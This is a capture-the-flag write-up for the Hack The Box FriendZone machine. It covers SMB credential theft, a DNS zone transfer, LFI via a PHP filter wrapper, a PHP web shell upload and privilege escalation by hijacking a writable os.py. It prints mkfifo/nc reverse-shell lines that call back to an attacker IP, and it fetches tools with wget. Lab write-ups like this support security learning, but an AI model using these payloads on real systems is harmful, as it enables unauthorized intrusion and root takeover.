 ```yaml
---
title: "FriendZone — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for FriendZone Hackthebox Machine"
date: 2022-05-06 19:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```



## Introduction

![](/img/HTB/FriendZone/FriendZone.png)

#### Used Tools:
- Nmap
- Dig
- Smbmap
- Smbclient
- LinPeas
- Pspy


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/FriendZone/img (1).png)

Nmap is done with open ports:
21 --> FTP
22 --> SSH
53 --> DNS
80 --> HTTP
139 --> SMB
443 --> HTTPS
445 --> SMB

Tried anonymous login with FTP but unfortunately didn't work:

![](/img/HTB/FriendZone/img (2).png)

Let's Jumb to the webserver... 

![](/img/HTB/FriendZone/img (3).png)

Just a static web page, I tried directory bruteforcing it but didn't reach anything...
Note: There is a domain name down there *friendzoneportal.red*

We know there is Port **53** open which is domain may be we can do a zone transfer for that domain. I added friedzone.red and friendzoneportal.red in /etc/hosts

```bash
dig axfr @10.10.10.123 friendzone.red
```

![](/img/HTB/FriendZone/img (4).png)

Successfully found 3 new subdomains, Added them to my /etc/hosts

I tried to access **administrator1.friendzone.red** but found a login form with username and password

![](/img/HTB/FriendZone/img (5).png)

Tried SQLinjection but didn't succeed, So I checked the other two subdomains

**Upload.friendzone.red** --> Have an upload button and after uploading an image nothing interested happen
**hr.friendzone.red** --> Not Found


Let's check **SMB** Service to see if there is any file available

```bash
smbmap -H 10.10.10.123 -R
```

![](/img/HTB/FriendZone/img (6).png)

Found there is a file called **creds.txt** in general which have a read access


## 2. EXPLOITATION:


Let's try read general/creds.txt

```bash
smbclient -U "" //10.10.10.123/general
```

![](/img/HTB/FriendZone/img (7).png)

Got admin credentials, Let's try them in `administrator1.friendzone.red`

![](/img/HTB/FriendZone/img (8).png)

Logged in Successfully to page contain a message to visit **/dashboard**

![](/img/HTB/FriendZone/img (9).png)

Visiting /dashboard found a page that appears tp be dealing with some sort of images and have a missing parameters due to begginer development and saying to add the missing parameters

`image_id=a.jpg&pagename=timestamp`


![](/img/HTB/FriendZone/img (10).png)

Adding the missing parameters, The Image successfully appeared with something called timestamp displayed at the end

![](/img/HTB/FriendZone/img (11).png)

Refreshing the page a lot of times the timestamp kept changing which indicates that it must be a php page that has the .php added automatically, So I tried to view it using LFI Wrappers...

Let start with "PHP wrapper" to bypass LFI functionality.

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=timestamp`

We got a base64 string of the .php page content

![](/img/HTB/FriendZone/img (12).png)

Its Working...

The `Development` share, we saw from `smbmap` has **writable permission** by the guest so why dont we upload a reverse shell there and try to access from this page. 

Write this exploit to a file named shell.php:

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 4444 >/tmp/f');
?>
```

Then reopen the smbclient but now in the development directory and upload the shell

```bash
smbclient -U "" //10.10.10.123/development
put shell.php
```

![](/img/HTB/FriendZone/img (13).png)

Create a listener on my local machine:

```bash
nc -nlvp 4444
```

We know that the smb files are located under the `/etc` from our previous enumeration, So we will access our shell which is under `/etc/Development/shell` without .php because it is automatically added

![](/img/HTB/FriendZone/img (14).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOM ! We successfully gained a shell for `www-data` user and the user flag is located at `/home/friend/user.txt`

![](/img/HTB/FriendZone/img (15).png)


## 3. PRIVILEGE ESCALATION:

In the /var/www there is a file called mysql_data.conf that has credentials of user `friend`, So we used it to upgrade from `www-data` to `friend`

![](/img/HTB/FriendZone/img (16).png)

I Also used these creds to obtain an `ssh` access with them

Then I ran *linPeas* script but it didn't show any thing I can use so I headed to see the `pspy` which monitor linux processes without root permissions.

But firstly I must upload it to the machine, and we all knew that /etc/development is writable so I will put the script there.

At my local machine:

```bash
kali@kali python3 -m http.server 8080
````

At friendZone:

```bash
wget http://10.10.16.10:8080/pspy64
```

![](/img/HTB/FriendZone/img (17).png)

After sometime this appeared, root runs `reporter.py` every minute

![](/img/HTB/FriendZone/img (18).png)

The script doesn't do anything except it runs the `os` script in the import line

![](/img/HTB/FriendZone/img (19).png)

From my previous enumeration in linPeas I found that `/usr/lib/python2.7/os.py` is writable. So what if we put a reverse shell in this library and when the reporter.py is reruned by root it will execute the shell with root privillages. Let's Try it...

Firstly we will put reverse shell in os.py

```python
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 8888 >/tmp/f")
```

![](/img/HTB/FriendZone/img (20).png)

Then we will save and open a listener in a new tab and wait a while for a connection...

![](/img/HTB/FriendZone/img (21).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!!! Now we are root :D

Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***